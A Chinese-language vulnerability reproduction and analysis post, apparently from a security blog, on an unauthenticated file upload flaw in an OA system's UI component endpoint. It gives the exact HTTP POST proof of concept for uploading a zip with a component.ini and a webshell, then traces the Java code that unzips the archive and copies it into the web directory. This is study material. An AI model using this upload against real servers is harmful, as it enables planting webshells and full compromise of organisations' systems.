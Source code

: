 某OA漏洞复现分析
=========

0x00 前言
-------

最近看有公众号公布了某凌OA的0day，本着学习的心态看看是怎么个事

0x01 前置知识
---------

该OA目前是基于spring框架开发的，相关spring bean的配置在kmssConfig中。

在spring框架中HandlerMapping 组件是处理**URL请求映射到合适**的处理程序（Handler）上，来实现控制器与页面之间的交互（通俗点就是路由映射）。

Spring MVC 自带3种HandlerMapping , 如下：

1. **SimpleUrlHandlerMapping**: 通过配置请求路径和Controller映射建立关系，找到相应的Controller 。
2. **RequestMappingHandlerMapping**: 通过注解 如@RequestMapping("/userlist") 来查找对应的Controller。
3. **BeanNameUrlHandlerMapping**: 通过定义的 beanName 进行查找要请求的Controller。

而该OA主要是按**BeanNameUrlHandlerMapping**和**RequestMappingHandlerMapping** 来实现路由映射的，在common下的spring-mvc.xml中可以看的其配置

![image-20231207180702118](https://shs3.b.qianxin.com/butian_public/f2542474349af432230c0b6844570af82fa31017a78ac.jpg)

![image-20231207180549103](https://shs3.b.qianxin.com/butian_public/f36450741aa568b057a87260f9f71f346dff3d74b55d7.jpg)

0x02 漏洞复现
---------

首先创建一个压缩文件里面包含`component.ini`和`webshell`

其中`component.ini`配置如下：

```php
id=2023
name=check.txt
```

两者打包成压缩包，通过如下poc上传

```php
POST /sys/ui/sys_ui_component/sysUiComponent.do?method=getThemeInfo&s_ajax=true HTTP/1.1
Host: IP:PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Referer: http://.com/sys/ui/sys_ui_component/sysUiComponent.do?method=upload
Content-Length: 474
Content-Type: multipart/form-data; boundary=---------------------------15610248407689
Cookie: SESSION=YmI0OGMyZDQtZDE0NC00MTQ2LWJmMzMtNWE5NDMwOTYxM2Ex
DNT: 1
Connection: close

-----------------------------15610248407689
Content-Disposition: form-data; name="file"; filename="test.zip"
Content-Type: application/x-zip-compressed

PKx3;x4;x14;
-----------------------------15610248407689
```

![image-20231207183340445](https://shs3.b.qianxin.com/butian_public/f497377dce0ce2f45336e7e20b4a456196f576468561c.jpg)

访问`/resource/ui-component/2023/test.jsp`，成功解析

![image-20231207183434771](https://shs3.b.qianxin.com/butian_public/f856973fb7fe53ee97f584e8ba60fa8df6a287b3d1a04.jpg)

0x03 漏洞分析
---------

根据poc，漏洞url为：`/sys/ui/sys_ui_component/sysUiComponent.do`，搜索关键字在/sys/ui目录下spring-mvc.xml中找的了其bean创建，这里是通过`BeanNameUrlHandlerMapping`将bean name作为路由

![image-20231207180503076](https://shs3.b.qianxin.com/butian_public/f312045dec1bd69582334b89e2a19b997ab5612bc67a4.jpg)

跟进到SysUiComponentAction类中，其中存在`getThemeInfo`方法，也就是我们poc中`method=getThemeInfo`

```java
public ActionForward getThemeInfo(ActionMapping mapping, ActionForm form, HttpServletRequest request, HttpServletResponse response) throws Exception {
        response.setCharacterEncoding("UTF-8");
        JSONObject rtnJson = new JSONObject();

        try {
            SysUiComponentForm mainForm = (SysUiComponentForm)form;
            JSONObject jsonInfo = this.getSysUiComponentService().checkExtend(mainForm.getFile());
            String extendId = jsonInfo.getString("extendId");
            String extendName = jsonInfo.getString("extendName");
            String folderName = jsonInfo.getString("folderName");
            String thumbnail = jsonInfo.getString("thumbnail");
            String folderPath = System.getProperty("java.io.tmpdir");
            if (!folderPath.endsWith("/") && !folderPath.endsWith("\\")) {
                folderPath = folderPath + "/";
            }

            folderPath = folderPath + folderName;
            File appThemeFolder = new File(this.getAppFolder(extendId));
            FileUtils.copyDirectory(new File(folderPath), appThemeFolder);
            if (StringUtil.isNotNull(thumbnail)) {
                if (!thumbnail.startsWith("/")) {
                    thumbnail = "/" + thumbnail;
                }

                rtnJson.put("fdThumbnail", "resource/ui-component/" + extendId + thumbnail);
            }

            rtnJson.put("directoryPath", extendId);
            rtnJson.put("status", "1");
        } catch (Exception var14) {
            rtnJson.put("status", "0");
            this.logger.error("获取上传部件的信息异常", var14);
        }

        response.getWriter().print(rtnJson);
        return null;
    }
```

乍眼一看好像没有解压操作，我们分析一下如下关键方法

```java
SysUiComponentForm mainForm = (SysUiComponentForm)form;
JSONObject jsonInfo = this.getSysUiComponentService().checkExtend(mainForm.getFile());
```

此处是处理传参返回一个json数据

来到`checkExtend`方法

```java
public JSONObject checkExtend(FormFile input) throws Exception {
    return this.checkExtend(input.getFileName(), input.getInputStream());
}
```

该oa对上传对象进行了封装为FormFile，其中filename为上传文件名，getInputStream为文件内容的输入流

![image-20231207185413928](https://shs3.b.qianxin.com/butian_public/f823067925b1e28a86a811ac3a39fc381e600825f8552.jpg)

这里首先是在临时文件夹中解压上传上了的压缩包，如果里面存在`component.ini`文件时会提取其中的`id`和`name`的值，并在json中返回，这里同时会返回临时压缩包名，在`ZipUtil.unZip`中可以看到在解压过程中是压缩包名作为目录文件将解压到其中

![image-20231207190011055](https://shs3.b.qianxin.com/butian_public/f30936190f9014c1b00319341a9a48336fb40cb969a75.jpg)

ps：这里还对防止了文件名目录穿越

然后回到`getThemeInfo`还有另一处调用

```java
folderPath = folderPath + folderName;
File appThemeFolder = new File(this.getAppFolder(extendId));
FileUtils.copyDirectory(new File(folderPath), appThemeFolder);
```

构造参数`folderPath`是系统临时文件目录+folderName，`appThemeFolder`是web目录的resource/ui-component/+extendId(component.ini中id的值)

![image-20231208093300747](https://shs3.b.qianxin.com/butian_public/f3626542d33d18d1ac90c21931f850dec4dab66e550cc.jpg)

随后进入`FileUtils.copyDirectory`方法（看名字应该是目录拷贝）

![image-20231208092933403](https://shs3.b.qianxin.com/butian_public/f954199edf380d1130c182ceb63c4d7098e6d39e4cc28.jpg)

所以`getThemeInfo`方法的处理逻辑是

1、解压压缩包到临时文件夹

2、根据`component.ini`中id的值，将临时压缩文件内的内容拷贝到resource/ui-component+id目录下

3、因为未对文件做校验，最终导致可上传jsp文件

0x04 路由映射
---------

poc中`method=getThemeInfo`是如何映射到`SysUiComponentAction`中的`getThemeInfo`方法呢

我们来看看`SysUiComponentAction`的继承关系图

![image-20231208105123965](https://shs3.b.qianxin.com/butian_public/f8196925e34c6fd67d89ee6ceb4534c0ce8a3b18ac1f2.jpg)

可以看的主要是继承了`KmssMultiActionController`，而`KmssMultiActionController`又继承自spring的`AbstractController`。根据spring执行handle逻辑，处理请求的逻辑在`handleRequestInternal`中实现，来看看`KmssMultiActionController`如何重载该方法的

```java
protected final ModelAndView handleRequestInternal(HttpServletRequest request, HttpServletResponse response) throws Exception {
        String methodName = this.getMethodName(this.createActionMapping(request, response), this.createActionForm(request, response), request, response, this.getParameter());
        if (StringUtil.isNull(methodName)) {
            Method executeMethod = (Method)this.strutsStyleHandleMethods.get("execute");
            return this.invokeMethod(executeMethod, StrutsStyleMethodTypes, request, response);
        } else {
            return this.chooseStyle(methodName, request, response);
        }
    }

```

首先调用`getMethodName`应该是获取根据参数获取method方法，this.getParameter()返回值为`"method"`

这个`getMethodName`真正的实现在`KmssMultiActionController`子类`BaseAction`中

![image-20231208110232104](https://shs3.b.qianxin.com/butian_public/f475186a6a1c02ac1386a9214197dcaf52716254ac87f.jpg)

当请求参数存在parameter（也就是method参数）返回其参数值。

然后是调用strutsStyleHandleMethods数组中的execute方法对象反射调用该方法。

```java
Method executeMethod = (Method)this.strutsStyleHandleMethods.get("execute");
return this.invokeMethod(executeMethod, StrutsStyleMethodTypes, request, response);
```

而`this.strutsStyleHandleMethods`数组的初始化是下面方法中

![image-20231208110823118](https://shs3.b.qianxin.com/butian_public/f8661159837cb63380109a9b439a3e4a5479913cfac6c.jpg)

这里主要获取参数为`Class[]{ActionMapping.class, ActionForm.class, HttpServletRequest.class, HttpServletResponse.class};`的方法。此方法在`KmssMultiActionController`的无参构造方法中，继承的子类实现了无参构造方法所以`strutsStyleHandleMethods`会获取到子类所有符合参数的方法。

调用`this.invokeMethod`反射调用`KmssMultiActionController`的`execute`方法

![image-20231208112011207](https://shs3.b.qianxin.com/butian_public/f3764198d0df2a0d2d84f2f745d9f1436ee3eab245311.jpg)

大概逻辑是获取参数中`method`的值进行反射调用